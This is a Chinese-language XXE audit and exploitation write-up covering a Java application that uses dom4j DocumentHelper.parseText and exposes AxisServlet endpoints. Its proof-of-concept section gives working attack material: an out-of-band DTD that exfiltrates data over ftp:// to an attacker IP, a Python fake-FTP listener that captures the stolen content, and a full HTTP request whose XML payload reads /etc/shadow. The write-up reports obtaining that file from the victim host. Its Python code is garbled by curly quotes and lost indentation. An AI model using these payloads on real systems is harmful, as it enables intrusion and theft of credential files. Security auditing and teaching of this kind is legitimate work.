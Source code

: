 ```yaml
---
title: XXE 审计与利用思路
id: zhfly3595
---
```


## XXE 审计与利用思路

第一处出现在系统使用的org.dom4j.DocumentHelper调用的类函数下。

在源码中搜索关键字DocumentHelper.parseText

得到：

```
\xxx\***\***.java 
Line 303:    document = DocumentHelper.parseText(xml);

\xxx***\XmlParser.java

Line 51:    Document doc = DocumentHelper.parseText(xmlStr);

\xxx******Task.java

Line 350:    Document document = DocumentHelper.parseText(result);

\xxx******Action.java

Line 237:    Document document = DocumentHelper.parseText(mapDataForOut);

\xxx***\xxxAction.java

Line 259:    Document document = DocumentHelper.parseText(mapDataForOut);

\xxx***\xxx.java

Line 120:    Document doc = DocumentHelper.parseText(policyXml.replaceAll("_lnx", “”));

Line 125:    doc = DocumentHelper.parseText(node.asXML());

\xxx***tion.java

Line 109:    Document doc = DocumentHelper.parseText(xmlStr);

\xxx***.java

Line 58:    doc = DocumentHelper.parseText(xml); // 将字符串转为XML

\xxx***.java

Line 92:    doc = DocumentHelper.parseText(xml);

Line 97:    oldDoc = DocumentHelper.parseText(vaildXml);

\xxx***ObjConverter.java

Line 173:     Document document = DocumentHelper.parseText(xml);

\xxx***.java

Line 949:     doc = DocumentHelper.parseText(infor.getContent());

\xxx***Utility.java

Line 1203:     Document doc = DocumentHelper.parseText(result);

\xxx***xxxService.java

Line 177:     Document doc = DocumentHelper.parseText(requestHeader);

\xxx***\EventParser.java

Line 83:    Document doc = DocumentHelper.parseText(xmlStr);

Line 185:    Document doc = DocumentHelper.parseText(xmlStr);

Line 229:    Document doc = DocumentHelper.parseText(xmlStr);

Line 306:    DocumentHelper.parseText(contentXml)).replaceAll("<", “&lt;”).replaceAll(">", “&gt;”).replaceAll("==amp;",

\xxx***\XMLMessageUtil.java

Line 24:    doc = DocumentHelper.parseText(xml);

Line 131:    tempDoc = DocumentHelper.parseText(xml);

Line 224:    document = DocumentHelper.parseText("<a><b></b></a>");

\xxx***\XmlParser.java

Line 51:    Document doc = DocumentHelper.parseText(xmlStr); `\xxx***.java

Line 244:    Document doc = DocumentHelper.parseText(xmlStr);` 
```

其中，`\xxx\***\XMLMessageUtil.java`

![image](../img/047773fc10cbff33e1680fd358c55cfb.png)

代码中 使用org.dom4j.DocumentHelper.parseTest解析XML文件

第二处，发现位置是在查看web.xml文件中AxisServlet的servlet-mapping配置，发现URL地址包含以下路径或后缀就可被攻击利用

```
***\WebRoot\WEB-INF\web.xml 
xxx\***\WebRoot\WEB-INF\web.xml
<servlet-mapping>
<servlet-name>AxisServlet</servlet-name>
       <url-pattern>/servlet/AxisServlet</url-pattern>
   </servlet-mapping>  
   <servlet-mapping>
       <servlet-name>AxisServlet</servlet-name>
       <url-pattern>*.jws</url-pattern>
   </servlet-mapping>
   <servlet-mapping>
       <servlet-name>AxisServlet</servlet-name>
       <url-pattern>/services/*</url-pattern>
   </servlet-mapping> 
```

在通过访问以下URL即可访问到AxisServlet服务，可对其进行XXE漏洞攻击。

```
https://www.0-sec.org/xxx/servlet/AxisServlet
https://www.0-sec.org/***/servlet/AxisServlet 
```

### poc

0x1:

在复现时由于目标主机无法访问外网，所以需要在本地主机上搭建测试环境，具体的复现过程如下（嗯额这里感谢一下同事）：

*   1）新建目录xxe_test，复制下面文件放入

test.dtd

```
<!ENTITY % param3 "<!ENTITY &#x25; exfil SYSTEM 'ftp://ip/%data3;'>"> 
```

*   2)在xxe_test目录下运行如下命令，监听8080端口（检查防火墙是否开放该端口）

Python -m SimpleHTTPServer 8080

*   3)运行以下脚本，启动ftp服务器（检查防火墙是否开放21端口）

> Python xxe-ftp.py

```
#!/usr/env/python
from __future__ import print_function
import socket

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)

s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)

s.bind((‘0.0.0.0’,21))

s.listen(1)

print(‘XXE-FTP listening ‘)

conn,addr = s.accept()

print(‘Connected by %s’,addr)

conn.sendall(‘220 Staal XXE-FTP\r\n’)

stop = False

while not stop:

dp = str(conn.recv(1024))

if dp.find(“USER”) > -1:

conn.sendall(“331 password please - version check\r\n”)

else:

conn.sendall(“230 more data please!\r\n”)

if dp.find(“RETR”)==0 or dp.find(“QUIT”)==0:

stop = True

if dp.find(“CWD”) > -1:

print(dp.replace(‘CWD ‘,’/’,1).replace(’\r\n’,’’),end=’’)

else:

print(dp) `conn.close()

s.close()` 
```

*   4)发送以下报文：

```
POST /xxx/*** HTTP/1.1
Host: www.0-sec.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: application/json, text/javascript, */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
X-Requested-With: XMLHttpRequest
Referer: https://target_ip/xxx/***.jsp
ContentType: pplication/x-www-form-urlencoded
Cookie: JSESSIONID=WwV5E_ZpZVWhnIKEaFuuphs1.localhost; ops.cookie.principal=xxxxx
DNT: 1
Connection: close
Content-Type: text/xml
Content-Length: 159 `<?xml version=“1.0”?>

<!DOCTYPE r [

<!ENTITY % data3 SYSTEM “file:///etc/shadow”>

<!ENTITY % sp SYSTEM “http://Your_IP/test.dtd”>

%sp;

%param3;

%exfil;

]>` 
```

![image](../img/57d18e83b2000ebe2d1ac3aff789a343.png)

**漏洞截图**：

0x1:

成功获取到受害主机的/etc/shadow文件

![image](../img/e70506587da99034f03c8cd61bfdccf0.png)